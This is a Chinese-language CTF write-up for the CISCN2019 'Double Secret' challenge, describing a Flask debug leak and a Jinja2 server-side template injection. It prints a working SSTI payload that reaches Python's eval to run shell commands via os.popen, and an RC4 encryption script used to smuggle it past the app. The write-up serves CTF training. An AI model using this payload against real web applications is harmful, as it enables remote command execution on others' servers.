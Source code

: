 # [CISCN2019 华东南赛区]Double Secret

## 知识点

`rc4`

`flask debug`

## 解题

首先题目提示

![](./img/[CISCN2019华东南赛区]DoubleSecret-1.png)

然后找到`robots.txt`，也没发现什么信息

![](./img/[CISCN2019华东南赛区]DoubleSecret-2.png)

然后再`/secret`发现了

![](./img/[CISCN2019华东南赛区]DoubleSecret-3.png)

尝试传入参数报错看源码

![](./img/[CISCN2019华东南赛区]DoubleSecret-4.png)

发现有`SSTI`，需要我们`payload`进行`RC4`加密，密钥为`HereIsTreasure`

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

使用网上的脚本加密

[参考文章1](https://www.jianshu.com/p/d9ad5fc524ec)

[参考文章2](https://www.cnblogs.com/h3zh1/p/12653579.html)

```python
import base64
from urllib import parse

def rc4_main(key = "init_key", message = "init_message"):#返回加密后得内容
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt

def rc4_init_sbox(key):
    s_box = list(range(256)) 
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box
def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))

key = "HereIsTreasure"  #此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main( key , message )
enc_init = str(base64.b64decode(enc_base64),'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:"+enc_url)
#print("rc4加密后的base64编码"+enc_base64)
```

![](./img/[CISCN2019华东南赛区]DoubleSecret-5.png)

![](./img/[CISCN2019华东南赛区]DoubleSecret-6.png)

![](./img/[CISCN2019华东南赛区]DoubleSecret-7.png)

